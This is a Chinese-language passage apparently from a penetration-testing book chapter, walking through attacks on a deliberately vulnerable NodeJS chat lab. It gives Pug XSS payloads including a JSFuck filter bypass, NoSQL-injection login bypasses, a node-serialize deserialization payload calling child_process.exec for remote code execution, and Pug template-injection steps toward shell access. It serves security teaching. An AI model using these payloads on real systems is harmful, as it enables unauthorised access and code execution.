在现实世界中，我们已经看到许多易受 XSS 攻击的案例，基于上述说明的方法，开发人员忘记了他们所处的上下文以及输入的参数的传递位置。让我们看看我们易受攻击的聊天支持系统应用程序中的一些示例。转到虚拟机上的以下 URL：`http://chat:3000/xss`。我们将逐步完成这些练习中的每一个，以了解 NodeJS/Pug XSS。

**练习1：（ http://chat:3000/xss ）**

在这个例子中，我们将字符串插值转义为段落标记。这是不可利用的，因为我们在 HTML 段落上下文中使用了正确的转义字符串插值符号。

* 转到 http://chat:3000/xss ，然后单击练习＃1
* Pug 模板源代码
    * p No results found for **#{name1}**
* 尝试输入并提交以下 payload ：
    * <script>alert(1)</script>
* 单击练习＃1并查看无结果输出
* 查看 HTML 响应（查看页面的源代码）：
    * &#x3C;script&#x3E;alert(1)&#x3C;/script&#x3E;



点击提交后，查看页面源代码（ctrl+u）并搜索“alert”一词。你将看到我们的 payload 中的特殊字符被转换为 HTML 实体。脚本标签仍可通过我们的浏览器在我们的网站上看到，但不会呈现为 JavaScript。这种字符串插值的使用是正确的，并且实际上没有办法通过这种情况来找到 XSS。这个工作评分会是 A+！让我们看一些糟糕的例子。

**练习2**

在这个例子中，我们在段落标记中用 `!{}` 表示非转义字符串插值。这很容易受到被精心设计的 XSS 攻击。任何基本的 XSS payload 都会触发此操作，例如：`<script>alert(1)</script>`

* 打开练习2

* Pug 模板源代码
    * p No results found for **!{name2}**

* 尝试输入 payload：
    * `<script>alert(1)</script>`

* 返回：
    * `<script>alert(1)</script>`

* 点击提交后，我们应该看到弹出窗口。你可以通过查看页面源代码并搜索“alert”进行验证。

因此，使用未提交用户输入的非转义字符串插值（`!{name2}`）会导致很多麻烦。这是一种不好的做法，不应该用于用户提交的数据。因为我们输入的任何 JavaScript 都将在受害者的浏览器上执行。



**练习3**

这个例子中，我们在动态生成的行内 JavaScript 中加入了转义后的字符串。这意味着我们成功了，因为它已经隐藏了，不是吗？由于我们所处的代码上下文，这个例子很容易受到攻击。我们将在 Pug 模板中看到，在我们的转义插值之前，我们实际上是在一个 script 标签内。因此，任何 JavaScript 都会自动执行。更棒的是，因为我们位于 Script 标签内，所以我们不需要将 `<script>` 标签用作 payload 的一部分。我们可以使用直接的 JavaScript 代码，例如：alert(1)：

* 打开练习3

* Pug 模板源代码
    * script.
        * var user3 = **#{name3};**
        * p No results found for #{name3}

* 此模板将在 HTML 中进行转义，如下所示：
    * `<script>`
    * `<p>No results found for [escaped user input]</p>`
    * `</script>`
* 尝试输入 payload：
    * 1;alert(1);
* 点击提交后，我们应该看到弹出窗口。你可以通过查看页面源代码并搜索“alert”进行验证。

顺便说一句，下面是一个小小的改变，正确的方法是在插值周围添加引号：

* Pug 模板源代码
    * script.
    * var user3="#{name3}"

**练习4**

在这个例子中，我们有 [Pug 非转义代码](https://pugjs.org/language/code.html)，由 != 表示，因为没有转义，所以它很容易受到 XSS 的攻击。因此，在这种情况下，我们可以对输入字段使用简单的 `<script>alert(1)</script>` 样式攻击。

* Pug 模板源代码：
    * p != 'No results found for '+name4
* 尝试输入 payload：
    * `<script>alert(1)</script>`
* 点击提交后，我们应该看到弹出窗口。你可以通过查看页面源代码并搜索“alert”进行验证。

**练习5** 

假设我们得到一个使用转义字符串插值和某种类型的过滤的应用程序。在下面的练习中，我们在 NodeJS 服务器中执行规则最小的黑名单过滤脚本，删除“<”，“>”和“alert”等字符。但是，他们再次错误地将我们的转义字符串插值放在 script 标签中。如果我们可以在那里利用 JavaScript，我们就可以发现一个 XSS：

* 打开练习5
* Pug 模板源代码
    * name5 = req.query.name5.replace(/[;’"<>=]|alert/g,"") 
    * script.
        * var user3 = #{name5};
* 尝试输入 payload 
    * 你可以尝试 alert(1)，但由于过滤器不起作用。你也可以尝试像`<script>alert(1)</script>`这样的东西，但转义代码和过滤器会拦截我们。如果我们真的想获得能利用 alert(1)的 payload，我们该怎么办？
* 我们需要弄清楚如何绕过过滤器来插入原始 JavaScript。请记住，JavaScript 功能非常强大，并且具有许多功能。我们可以利用此功能来提供一些新颖的 payload。绕过这些过滤器的一种方法是使用新颖的 JavaScript 表示方法。这可以通过名为 http://www.jsfuck.com/ 的站点创建。如下所示，通过使用括号，括号，加号和感叹号，我们可以重新创建 alert(1)。
* JSF*ck Payload：
```
[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+(![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]]+[+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]])()
```



如你所知，许多浏览器已开始包含 XSS 保护机制。我们甚至可以使用这些 payload 来绕过某些浏览器保护。尝试在 Kali 之外的真实浏览器中使用它们，例如 Chrome。

在复杂的应用程序上触发 XSS 并不容易。很容易忽视或误解框架如何处理输入和输出。因此，在为 Pug/NodeJS 应用程序执行源代码审查时，在源代码中搜索 `!{`，`#{` 或 `${`  有助于可能触发 XSS 的位置。了解上下文，以及是否需要在该上下文中进行转义，这是至关重要的，我们将在以下示例中看到。

尽管这些攻击特定于 Node 和 Pug，但每种语言都存在针对 XSS 和输入验证的问题。你将无法运行漏洞扫描程序或 XSS 模糊测试工具并找到所有 XSS 漏洞。但你确实需要了解所使用的语言和框架。

### 从 XSS 到 shell

我经常遇到的一个问题是，我如何通过 XSS 获取 Shell？尽管有许多不同的方法可以做到这一点，但我们通常会发现，如果我们可以让用户在内容管理系统（CMS）或类似系统中获得管理员的 XSS，那么这可能会导致系统完全受损。可以在这里找到 Hans-Michael 完整的演练示例和代码：https://github.com/Varbaek/xsser 。 Hans-Michael 提供了一些关于重建 XSS 到 RCE 攻击的精彩示例和视频。

我喜欢使用涉及利用 JavaScript 功能的自定义红队攻击。我们知道 JavaScript 非常强大，我们在 BeEF（浏览器开发框架）中看到过这样的功能。因此，我们可以利用所有这些功能来执行受害者不知情的攻击。这个 payload 会做些什么？攻击的一个示例是让受害者计算机上运行的 JavaScript XSS payload 获取受害者的内部（自然）IP 地址。然后，我们可以获取其 IP 地址并开始使用我们的 payload 扫描其内部网络。如果我们发现一个允许在没有身份验证的情况下就可以登入的 Web 应用程序，我们就可以向该服务器发送 payload。

例如，我们的目标可能是 Jenkins 服务器，我们知道如果可以未经身份验证登录的话，几乎可以完成远程代码执行。要查看 XSS 与 Jenkins 入侵的完整演练，请参阅第5章 - 利用社会工程攻击内网 Jenkins。

### NoSQL 注入

在前两本书中，我们花了相当多的时间学习如何进行 SQL 注入和使用 [SQLMap](http://sqlmap.org/)。除了对 Burp Suite 的一些混淆和集成之外，本书对比上本书没有太大变化。相反，我想深入研究 NoSQL 注入，因为这些数据库变得越来越普遍。

MySQL，MSSQL 和 Oracle 等传统 SQL 数据库依赖于关系数据库中的结构化数据。这些数据库是关系型的，这意味着一个表中的数据与其他表中的数据有关。这样可以轻松执行查询，例如“列出所有在过去30天内购买东西的客户”。对这些数据的要求是，数据的格式必须在整个数据库中保持一致。NoSQL 数据库由通常不遵循表格/关系模型的数据组成，如 SQL 查询数据库中所示。这些称为“非结构化数据”（如图片，视频，社交媒体）的数据并不适用于我们的大量收集数据。

NoSQL 功能：
* NoSQL 数据库的类型：Couch/MongoDB
* 非结构化数据
* 水平化增长

在传统的 SQL 注入中，攻击者会尝试破坏 SQL 查询语句并在服务器端修改查询语句。使用 NoSQL 注入，攻击可以在应用程序的其他区域中执行，而不是在传统的 SQL 注入中执行。此外，在传统的 SQL 注入中，攻击者会使用一个标记来发起攻击。在 NoSQL 注入中，在NoSQL注入中，通常存在将字符串解析或评估为NoSQL调用的漏洞。

NoSQL 注入中的漏洞通常在以下情况下发生：（1）端点接受的 JSON 数据是从 NoSQL 数据库中请求的，以及（2）我们能够使用 NoSQL 比较运算符操作查询来更改 NoSQL 查询。

NoSQL 注入的一个常见例子是注入类似的东西：`[{"$gt":""}]`。这个 JSON 对象基本上是说运算符（`$gt`）大于 NULL("")。由于逻辑上一切都大于 NULL，因此 JSON 对象成为一个真正正确的语句，允许我们绕过或注入 NoSQL 查询。这相当于 SQL 注入世界中的[' or 1=1—]。在 MongoDB 中，我们可以使用以下条件运算符之一：
* (>)大于 -  `$gt`
* (<)小于 -  `$lt`
* (>=)大于等于 - `$gte`
* (<=)小于等于 - `$lte`


**攻击客户支持系统 NoSQL 应用程序**

首先，浏览聊天应用程序上的 NoSQL 工作流程：

* 在浏览器中，通过 Burp Suite 代理，访问聊天应用程序：http://chat:3000/nosql

* 尝试使用任何用户名和密码进行身份验证。查看在 Burp Suite 中的身份验证请求期间发送的 POST 流量。



在我们的聊天应用程序中，我们将看到在对/loginnosql 端点进行身份验证期间，我们的 POST 数据将包含 `{ "用户名"："admin"，"密码": "GuessingAdminPassword" }`。在 POST 请求中使用 JSON 来验证用户是很常见的，但是如果我们定义自己的 JSON 对象，我们可能会使用不同的条件语句来生成真正的语句。这实际上等于传统的 SQLi 1 = 1语句和绕过认证。让我们看看我们是否可以将其注入我们的应用程序。

**服务器源代码**

在聊天应用程序的 NoSQL 部分中，我们将像之前一样看到 JSON 的 POST 请求。因为作为黑盒测试，我们也看不到服务器端的源代码，我们可以期望它以某种方式查询 MongoDB 后端，类似于：

* `db.collection(collection).find({"username":username,"password":password}).limit(1)`...


**注入 NoSQL 聊天系统**

正如我们从服务器端源代码中看到的那样，我们将使用用户提供的用户名/密码来搜索数据库以查找匹配项。如果我们可以修改 POST 请求，我们可能会注入数据库查询。

* 在浏览器中，通过 Burp Suite 代理，访问聊天应用程序：http://chat:3000/nosql
* 在 Burp Suite 中打开“拦截”，单击“登录”，然后以管理员身份提交用户名，并输入密码 GuessingAdminPassword
* 代理流量并拦截 POST 请求
* `{"username"："admin"，"password"，"GuessingAdminPassword"} --> {"username"："admin"，"password"：{"$gt"：""}}`
* 你现在应该可以以管理员身份登录！



那么这里发生了什么呢？我们将字符串 "GuessingAdminPassword" 更改为JSON对象 `{"$gt":""}`，这是 TRUE 语句，因为大于 NULL 的所有内容都为 TRUE。这将 POST 请求更改为 `{"username":"admin", "password":TRUE }`，它自动使请求为 TRUE 并以管理员身份登录而不需要知道密码，类似 SQLi 中的 1 = 1 攻击。

**高级 NoSQLi**
 
NoSQL 注入并不新鲜，但 NodeJS 章节的目的是展示更新的框架和语言以及如何潜在地引进新的漏洞。例如，Node.js 有一个 qs 模块，它具有将 HTTP 请求参数转换为 JSON 对象的特定语法。默认情况下，qs 模块在 Express 中使用“body-parser”中间件的一部分。

* qs 模块：一个查询字符串解析和字符串化库，增加了一些安全性。[https://www.npmjs.com/package/qs]

这是什么意思？如果使用 qs 模块，如果在参数中使用括号表示法，POST 请求将在服务器端转换为 JSON。因此，看起来像用户名 [value] = admin&password [value] = admin 的 POST 请求将转换为 `{"username"：{"value"："admin"}，"password"：{"value"："admin" }}`。现在，qs 模块也将接受并转换 POST 参数以协助 NoSQLi：

* 例如，我们可以发出如下的 POST 请求：
    * `username=admin&password[$gt]=`
* 服务器端请求转换将转换为：
    * `{"username": "admin", "password":{"$gt":""}`
* 现在看起来类似于传统的 NoSQLi 攻击。

现在，我们的请求看起来与上一节中的 NoSQLi 相同。让我们看看这个操作：

* 转到 http://chat:3000/nosql2 
* 打开 Burp Intercept
* 使用 admin 登录：
* 修改 POST 参数：
* `username=admin&password[$gt]=&submit=login`



你应该可以使用 admin 登录了！你已使用 Express Framework 使用的 qs 模块解析器执行 NoSQL 注入，作为解析器中间件的一部分。但等等，还有更多！如果你不知道要攻击哪个用户名怎么办？我们可以使用同样的攻击来查找和登录其他帐户吗？
 
如果不是使用密码的话，那我们也可以尝试使用用户名吗？在这种情况下，NoSQLi POST 请求看起来像：
* `username[$gt]=admin&password[$gt]=&submit=login`

上面的 POST 请求实际上是在数据库中查询下一个大于 admin 的用户名，并使用密码字段生成一个 TRUE 语句。如果成功，你应该在管理员之后按字母顺序作为下一个用户登录。继续这样做，直到找到 superaccount 。

更多 NoSQL Payload：
* https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection
* https://blog.websecurify.com/2014/08/hacking-nodejs-andmongodb.html
* https://www.owasp.org/index.php/Testing_for_NoSQL_injection

### 反序列化攻击
在过去的几年中，通过网络进行的序列化/反序列化攻击变得越来越流行。我们在 BlackHat上看到了许多不同的讨论，发现了 Jenkins 和 Apache Struts2 等常见应用程序中的关键漏洞，并且正在开发像 [ysoserial](https://github.com/frohoff/ysoserial) 这样工具的大量活跃研究。那么反序列化攻击有什么厉害之处呢？

在我们开始之前，我们需要了解为什么要序列化。序列化数据有很多原因，但最常用于生成值/数据的可存储表示而不会丢失其类型或结构。序列化将对象转换为字节流，以通过网络传输或存储。通常，转换方法涉及 XML，JSON 或特定于该语言的序列化方法。

NodeJS 中的反序列化<br>
很多时候，发现复杂的漏洞需要深入了解应用程序。在我们的场景中，Chat NodeJS 应用程序正在使用易受攻击的 [serialize.js 版本](https://github.com/luin/serialize) 。可以发现这个 Node 库易受攻击，因为 
“不受信任的数据被传递到 unserialize() 函数中，攻击者通过传递一个存在 Immediately Invoked Function Expression(IIFE)的 JavaScript 对象可以引起任意代码执行。”（ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5941 ）


让我们逐步了解攻击的细节，以便更好地了解正在发生的事情。第一，我们查看了 serialize.js 文件并快速搜索 eval（ https://github.com/luin/serialize/search?utf8=%E2%9C%93&q=eval&type= ）。通常，允许用户输入进入 JavaScript eval 语句是坏的消息，因为 `eval()`执行原始 JavaScript。如果攻击者能够将 JavaScript 注入此语句，他们将能够在服务器上执行远程执行代码。



其次，我们需要创建一个序列化的 payload，它将被反序列化，并通过我们的 JavaScript payload `require('child_process').exec('ls')`.

```
{“thp”:“_$$ND_FUNC$$_function (){require(‘child_process’).exec(‘DO SYSTEM COMMANDS HERE’, function(error, stdout, stderr) { console.log(stdout) });}()”}
```

上面的 JSON 对象将通过以下的请求`(){require('child_process').exec('ls')}`进入 unserialize 函数中的 eval 语句，为我们提供远程代码执行。要注意的最后一部分是结尾括号添加了“()”，因为没有它我们的函数就不会被调用。第一个发现此漏洞的研究员 Ajin Abraham 发现，使用立即调用的函数表达式或 IIFE（ https://en.wikipedia.org/wiki/Immediately-invoked_function_expression ）将允许在创建后执行该函数。有关此漏洞的更多详细信息，请访问：https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5941 。

在我们的聊天应用程序示例中，我们将查看 cookie 值，该值正在使用此易受攻击的库进行反序列化：

* 转到 http://chat:3000
* 代理 burp 中的流量并查看 cookie
* 识别一个 cookie 名称“donotdecodeme”
* 将该 Cookie 复制到 Burp Suite Decoder 和 Base64 中进行解码





如前所述，每种语言都有其独特的地方，NodeJS 也不例外。在 Node/Express/Pug 中，你无法直接写入 Web 目录，但是可以像在 PHP 中一样访问它。必须有一个指向文件夹的指定路径，该文件夹既可写又可访问到公共网络。

**创建有效 payload**

* 在开始之前，请记住实验中的所有这些 payload 都可以从这里复制粘贴：http://bit.ly/2qBDrFo
* 获取原始 payload 并修改你的 shell 执行“'DO SYSTEM COMMANDS HERE”

```javascript
{"thp":"_$$ND_FUNC$$_function(){require('child_process').exec('DO SYSTEM COMMANDS HERE', function(error, stdout, stderr) {console.log(stdout)});}"}
```
 
* 例：
```javascript
{"thp":"_$$ND_FUNC$$_function(){require('child_process').exec('DO SYSTEM COMMANDS HERE', function(error, stdout, stderr) { console.log(stdout) });}()"}
```
 
* 由于原始 Cookie 已编码，我们必须通过 Burp Decoder/Encoder 对我们的 payload 进行 base64编码
    *示例 payload：eyJ0aHAiOiJfJCRORF9GVU5DJCRfZnVuY3Rpb24gKCl7cmVxd
* 注销，打开Burp拦截，并转发/（home）请求
    * 将 cookie 修改为新创建的 Base64 payload
* 转发流量，因为公用文件夹是/的路由，你应该能够打开浏览器并转到 http://chat:3000/hacked.txt
* 你现在可以进行远程执行代码！随意对此系统进行后期利用。首先尝试访问 `/etc/passwd`。



在 node-serialize 模块的源代码中，我们可以利用函数表达式，这对于使用用户输入执行此操作的任何 JavaScript/NodeJS 应用程序来说都是一个严重的问题。这种糟糕的做法让我们攻陷了这个应用程序。


 
参考文献：

* https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

* https://github.com/luin/serialize 

* https://snyk.io/test/npm/node-serialize?severity=high&severity=medium&severity=low

* https://blog.websecurify.com/2017/02/hacking-node-serialize.html


###  模板引擎攻击——模板注入
模板引擎由于其模块化和简洁的代码与标准 HTML 相比而被更频繁地使用。模板注入是指用户输入直接传递到渲染模板，允许修改底层模板。这可以在 wiki，WSYWIG 或电子邮件模板中恶意使用。这种情况很少发生在无意中，所以它经常被误解为只是 XSS。模板注入通常允许攻击者访问底层操作系统以获取远程代码执行。

在下一个示例中，你将通过 Pug 对我们的 NodeJS 应用程序执行模板注入攻击。我们无意中将自己暴露给模板注入，使用带有用户输入的元重定向，使用模板文字`${}`直接在 Pug 中呈现。重要的是要注意模板文字允许使用换行符，这是我们必须破坏段落标记，因为 Pug 是空格和换行符，类似于 Python 。

在 Pug 中，第一个字符或单词表示表示标签或功能的 Pug 关键字。你也可以使用缩进指定多行字符串，如下所示：

* p.
    * 这是段落缩进。
    * 这仍然是段落标记的一部分。

以下是 HTML 和 Pug 模板的示例：
 


上面的示例文本显示了它在 HTML 中的外观以及相应的 Pug Markup 语言的外观。通过模板和字符串插值，我们可以创建快速，可重用且高效的模板

**模板注入示例**

聊天应用程序容易受到模板注入攻击。在下面的应用程序中，我们将看看我们是否可以与 Pug 模板系统进行交互。这通常可以通过检查我们提供的输入参数是否可以处理基本操作来完成。James Kettle 写了一篇关于攻击模板和与底层模板系统交互的大论文（ http://ubm.io/2ECTYSi ）。

与 Pug 交互：
* 转到 http://chat:3000 并使用任何有效帐户登录
* 转到 http://chat:3000/directmessage 并输入用户和评论以及“发送”，接下来，返回 Direct Message 页面并尝试将 XSS payload 输入到用户参数`<script>alert(1)</script>`
    * http://chat:3000/ti?user=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&comment
    * 这表明应用程序容易受到 XSS 的攻击，但我们可以与模板系统进行交互吗？
* 在 Burp 历史记录中，查看服务器请 request/response 的响应 `/ti?user=`，并将请求发送到 Burp Repeater（ctrl+r）
 




**测试基本操作**

我们可以通过将它传递给算术字符串来测试模板注入的 XSS 易受攻击参数。如果我们的输入被读取，它将识别它易受模板注入的影响。这是因为模板（如编码语言）可以轻松支持评估算术运算符。

测试基本操作符：

* 在 Burp Repeater 中，测试 `/ti` 上的每个参数以进行模板注入。我们可以通过传递9乘9这样的数学运算来做到这一点。

* 我们可以看到它没有用，我们没有得到81，请记住，我们的用户输入包含在段落标记内，所以我们可以假设我们的 Pug 模板代码看起来像这样： 
    * p Message has been sent to !{user}

 

利用 Pug 的特点：

* 正如我们之前所说，Pug 是空格分隔的（类似于 Python），换行符开始一个新的模板输入，这意味着如果我们可以突破 Pug 中的当前行，我们可以执行新的模板代码。在这种情况下，我们将打破段落标记 `<p>` ，如上所示，并执行新的恶意模板代码。为此，我们将不得不使用一些 URL 编码来利用此漏洞（ http://bit.ly/2qxeDiy ）。

* 让我们逐步完成每个要求以执行模板注入：
    * 首先，我们需要触发一个新行并突破当前模板。这可以使用以下字符完成：
        * %0a new line
    * 其次，我们可以通过使用“=”符号来利用 Pug 中的算术函数
        * %3d%编码“=”符号
    * 最后，我们可以输入我们的数学方程式
        * 9*9数学方程式
* 因此，最终 payload 将如下所示：
    * [newline]=9*9
    * URL 编码：
         * `GET /ti?user=%0a%3d9*9&comment=&link=`
* `GET /ti?user=%0a%3d9*9`在响应正文中给出了81。你已在用户参数中发现了模板注入！让我们通过利用 JavaScript 来获取远程代码。

 

正如你在响应中所看到的，我们在段落标记之外有“81”而不是用户名！这意味着我们能够注入模板。

我们现在知道我们可以进行模板注入，因为我们可以执行简单的计算，但是我们需要看看是否可以执行 shell。要获得 shell 执行，我们必须找到正确的函数来在 Node/JavaScript 中执行。

* 首先，我们将识别自身全局对象的根节点，然后继续确定我们可以访问哪些模块和功能。我们希望最终使用 Require 函数导入 `child_process.exec` 以运行操作系统命令。在 Pug 中，“=”字符允许我们输出 JavaScript 结果。我们将从访问全局根开始：
    * [new line]=global
    * 使用 Burp 的解码器工具将上述表达式编码为 URL 编码，可以得到：%0a%3d%20%67%6c%6f%62%61%6c
* 使用上面的 URL 编码字符串作为用户值并重新发送。
* 如果在提交前后请求一切顺利，我们将看到 [object global]，这意味着我们可以访问全局对象。
 


解析全局对象：
* 让我们通过在全局范围内使用 Pug 迭代器‘each’来查看我们可以访问的对象和属性。记住换行符（%0a）和空格（%20）：
    * each val,index in	global 
    p=index 
    * URL 编码：
%0a%65%61%63%68%20%76%61%6c%2c%69%6e%64%65%78%2
* 在上面的例子中，我们使用‘each’迭代器，它可以访问一个值，并且如果我们指定了数组或对象，也可以选择访问索引。我们试图找到我们在全局对象中可以访问的对象，方法或模块。我们的最终目标是找到类似“require”方法的东西，以允许我们导入 child_process.exec，它允许我们运行系统命令。从现在开始，我们只是使用反复试验来识别最终会给我们 require 方法的方法或对象。
 
 

查找代码执行功能：

* 从上一个请求中，我们看到了全局中的所有对象以及一个名为“process”的对象。接下来，我们需要识别我们在 global.process 中可以访问的有趣对象：
    * each val,index in	global.process
    p=index 
    * URL 编码：
%0a%65%61%63%68%20%76%61%6c%2c%69%6e%64%65%7
